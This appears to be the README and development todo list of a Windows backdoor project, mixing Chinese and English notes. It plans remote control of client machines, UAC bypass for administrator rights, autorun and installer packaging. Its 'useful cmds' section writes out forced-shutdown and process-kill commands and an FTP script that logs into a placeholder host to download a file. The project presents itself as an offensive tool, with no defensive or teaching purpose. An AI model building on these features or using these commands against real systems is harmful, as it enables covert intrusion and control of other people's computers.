 # nbackdoor
**backdoor system**

### Refactor!
- new branch!
- Framework: directly controler to client
- use normal socket to replace websocket
- job pools
- tools set：
  - Remote Desktop Protocol
  - ftp server
  - [PowerShell](http://drops.wooyun.org/tips/6090)
  - other usefull bat
  - ...

- 管理员权限，绕过UAC
- auto run
- box to installer
- ...


### todo
- [x] 添加 from 字段
- [x] 安全密码输入
- [x] command-line help messages：https://github.com/docopt/docopt
- [x] 下载文件
- [x] ShowDialog 执行完毕返回 result 消息
- [x] console output redirect test
- [x] transfer buf (for 'chars')
- [x] arguments splite
- [x] 获取动态服务器 ip
- [x] esc 终止运行中的命令
- [ ] send_data 和 send_char 融合

## tofix
- [x] 执行 ShowDialog 命令，参数使用中文字符串失败
- [x] connect to client success 处理
- [ ] cat 测试


## note
- [pyinstaller](https://github.com/pyinstaller/pyinstaller)
- [cmd shell -> ftp upload](http://home.51.com/xiaobai521100/diary/item/10008446.html)


## useful cmds
```
shutdown -s -f
taskkill /f /pid
tasklist
echo line1 > 1.txt
echo line2 >> 1.txt

echo open [ftp host] > ftp.txt
echo [account]>> ftp.txt
echo [password]>> ftp.txt
echo binary >> ftp.txt
echo get [download file] >> ftp.txt
echo bye >> ftp.txt

ftp -s:ftp.txt
```

## give up
- [ ] backdoor 端使用 Windows Services 后台执行：https://github.com/Skycrab/pymgr
- [x] jobs pool：用户异步命令执行结果返回并储存在服务端
- [ ] jobs -clean
- [ ] sae branch
- [ ] 考虑 pre_send_char